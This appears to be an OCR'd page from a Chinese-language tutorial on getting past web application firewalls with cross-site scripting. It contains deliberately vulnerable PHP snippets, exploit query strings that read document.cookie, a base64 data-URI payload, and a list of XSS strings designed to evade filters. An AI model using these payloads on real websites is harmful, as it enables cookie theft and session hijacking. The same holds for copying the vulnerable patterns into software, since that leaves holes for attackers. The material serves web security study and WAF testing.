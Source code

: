 ## 3.绕过WAF的方法

通用问题

• 存储型XSS

如果攻击者已经让XSS绕过过滤器，WAF无法阻止攻击透过。

•基于JavaScript的反射型XSS

> 示例: <script> ... setTimeout(\"writetitle()\",$_GET[xss]) ... </script>
>
> 利用: /?xss=500); alert(document.cookie);//
>
> 

•基于DOM的XSS

> 示例: <script> ... eval($_GET[xss]); ... </script>
>
> 利用: /?xss=document.cookie
>
> 

### **通过请求重定向构造XSS**

•存在漏洞代码:

> ...
>
>  header('Location: '.$_GET['param']);
>
> ...

同样包括:

> ...
>
>  header('Refresh: 0; URL='.$_GET['param']);
>
> ...

•这种请求不会绕过WAF:

> /?param=javascript:alert(document.cookie)

•这种请求可以绕过WAF并且XSS攻击可以在某些浏览器执行:

> /?param=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

**绕过**WAF可用**字符串.**

> <Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
>
> <Video> <source onerror = "javascript: alert (XSS)">
>
> <Input value = "XSS" type = text>
>
> <applet code="javascript:confirm(document.cookie);">
>
> <isindex x="javascript:" onmouseover="alert(XSS)">
>
> "></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
>
> "><img src="x:x" onerror="alert(XSS)">
>
> "><iframe src="javascript:alert(XSS)">
>
> <object data="javascript:alert(XSS)">